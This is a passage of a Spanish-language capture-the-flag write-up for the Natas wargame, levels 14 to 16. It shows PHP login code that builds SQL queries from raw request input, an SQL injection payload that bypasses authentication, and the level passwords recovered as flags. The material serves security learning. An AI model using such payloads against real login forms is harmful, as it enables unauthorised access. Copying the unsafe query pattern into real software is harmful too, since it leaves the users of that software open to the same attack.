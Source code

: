 
&#x20;Forward y nos lleva a :

![](<../../.gitbook/assets/image (16).png>)

&#x20;Accedemos y:

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>



&#x20;(Los primeros simbolos son por el magic number)

> Flag: z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ

## Level 15

Source:

```php
$query = "SELECT * from users where username=\\"".$_REQUEST["username"]."\\" and password=\\"".$_REQUEST["password"]."\\"";
```

SQLi:

```php
admin" or 1=1#

$query = "SELECT * from users where username=\\"admin" or 1=1# ".$_REQUEST["username"]."\\" and password=\\"".$_REQUEST["password"]."\\"";

Successful login! The password for natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
```

Flag: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx

## Level 16

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\\"".$_REQUEST["username"]."\\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
```